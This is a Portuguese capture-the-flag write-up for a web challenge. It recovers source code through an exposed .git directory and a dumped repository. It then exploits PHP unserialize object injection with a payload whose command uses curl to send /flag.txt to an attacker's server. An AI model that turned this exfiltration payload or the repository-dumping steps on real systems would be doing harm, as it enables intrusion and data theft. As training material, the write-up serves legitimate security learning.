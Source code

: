 ## A2 - Web App Challenge

### Flag 1
Descrição
``` text
Precisamos retomar o controle do site da companhia de abastecimento das mãos dos terroristas. Nosso primeiro passo é tentar repetir os passos deles para descobrir como recuperaram o código fonte.

Recupere o código-fonte desta página.

Acesse: URL
```


Nos é passada uma missão para recuperar o código-fonte da página e uma URL. Logo, nossa primeira ideia é deduzir se por código-fonte estamos falando do HTML (frontend) ou do código que está no servidor e é responsável por prover esta página.

Ao acessar a URL e verificar o código-fonte nos deparamos com o seguinte comentário HTML: `<!-- salvo no git há 15 minutos -->`

Isso pode parecer uma primeira deixa para o que seria o objetivo do desafio. Se imaginarmos que estamos em busca do código-fonte da aplicação no backend, já que o HTML não tem nada de interessante, podemos supor que precisamos descobrir um repositório utilizando o GIT.

Uma falha muito comum é quando o desenvolvedor deixar o repositório GIT como o diretório utilizado pelo servidor de aplicação Web. Com isso, o diretório oculto `.git` também fica acessível na estrutura de diretórios do servidor Web. Ao tentar acessar o endereço `http://URL/.git` recebemos como resposta `Forbidden`, isso pode ser uma configuração do servidor para impedir arquivos ocultos ou apenas impedindo a listagem de diretórios, desta forma podemos tentar acessar um arquivo padrão dentro da estrutura de diretórios do GIT, que seria o `HEAD`. Utilizando o comando curl abaixo podemos notar que de fato há um repositório GIT dentro do `document root` do servidor de aplicação.

```shell
% curl -s http://18.231.191.84/.git/HEAD
ref: refs/heads/master
```

Diante deste fato basta agora fazer o download de todo o repositório para a máquina local e inspecionar os logs e 
commits em busca do código fonte. Para isso podemos utilizar uma ferramenta que extrai a estrutura do repositório, 
como a `git-dumper` disponível em (https://github.com/arthaud/git-dumper)[https://github.com/arthaud/git-dumper]. Para instalar a executar seguimos os 
passos a seguir (já com Python 3 instalado):

```shell
git clone https://github.com/arthaud/git-dumper.git
cd git-dumper
python3 -m pip install -r requirements.txt
```

Com o repositório salvo localmente, agora podemos verificar o histórico de commits através do log, para isso executamos o seguinte comando:

```shell
cd repositorio
git logs
python3 git_dumper.py http://URL_desafio/.git desafio
```

Ao executar o script acima teremos a seguinte saída, conforme imagem abaixo:
![img.png](images/img.png)

Agora precisamos verificar os logs do repositório, através dos comandos abaixo:

```shell 
git log
```
Obtemos a seguinte saída:
![img.png](images/img2.png)

Detectamos que há um commit anterior no repositório, o commit X. Executando o comando abaixo podemos verificar quais arquivos foram alterados.

```shell 
git show --name-only 2b9613d5befa217ea7610aef6dc2c7ff04cfc2b4
```
Que nos dará a seguinte saída.
![img_1.png](images/img_1.png)

Notamos a existência do arquivo `secrets.txt`. Entretanto, esse arquivo não está mais no commit atual, se fizermos um `git show` no HEAD podemos obter a mudança feita com a retirada do arquivos.
![img_2.png](images/img_2.png)

Descobrimos a primeira flag: `YSH{RepoSitOrios_No_Document_Ro0T}`

---

### Flag 2
Descrição
````text
Continue sua investida para finalizar nosso ataque.

O que procuramos está em /flag.txt
````


Na segunda flag nos é informado apenas que devemos continuar a investida, logo como estamos diante do código-fonte da aplicação podemos fazer uma revisão do código para detectar algum comportamento estranho.

Ao abrirmos o conteúdo do arquivo `index.php` visualizamos o trecho de código abaixo.
![img_3.png](images/img_3.png)

Imediatamente podemos observar que a entrada do usuário `$_GET['segredo']` está sendo passada como argumento para a função `unserialize` o que pode resultar em desserialização insegura, ou mais precisamente object injection no PHP. Há também no início do arquivo um `include "classes.php"`. Como suspeitamos de desserialização, é primordial saber quais classes estão carregadas que podem ser desserializadas.
![img_4.png](images/img_4.png)

Observando o código acima, podemos perceber a presença da função `exec` usando o atributo `$this->username` como parte do argumento passado. A função `exec` é responsável por executar um programa externo, desta forma, se conseguirmos alterar o atributo `username` conseguiremos execução de comando no backend do sistema. Porém, como chamar o `__destruct` neste caso?

A função `__destruct` da classe em PHP será chamado assim que não houve referências para o objeto em questão, ou durante a sequência de finalização do script. Desta forma, o `__destruct` é o que chamamos de magic method, pois ele é chamado automaticamente.

Sendo assim, sabemos que ao finalizar a execução e destruir um objeto da classe `User` o método `__destruct` será chamado. Portanto, precisamos criar um objeto desta classe, definir o atributo username com nossa injeção de comando, serializar o objeto, encodar em base64 e enviar no parâmetro de URL `segredo`. Como o que estamos procurando está no /flag.txt do sistemas de arquivo, podemos utilizar uma comando para extrair essa informação.

```php
<?php

include 'src/classes.php';

$u = new User();
$u->username = '`curl -F "flag=@/flag.txt" http://meu_servidor`';

echo base64_encode(serialize($u));
```

Executando o código acima, teremos como resultado o objeto PHP serializado em base64. Porém, precisamos ter um 
servidor web, ou a porta 80 aberta, aguardando essa request para que possamos capturar o arquivo enviado. Por fim, acessamos a URL `http://18.231.191.84/?segredo=BASE64_AQUI` passando como valor do parâmetro `segredo` o base64 criado acima, e assim receberemos a seguinte request:
![img_5.png](images/img_5.png)

E capturamos a flag 2: `YSH{WOW_DESSERIALIZACAO_FTW_!!CONGRATS!!}`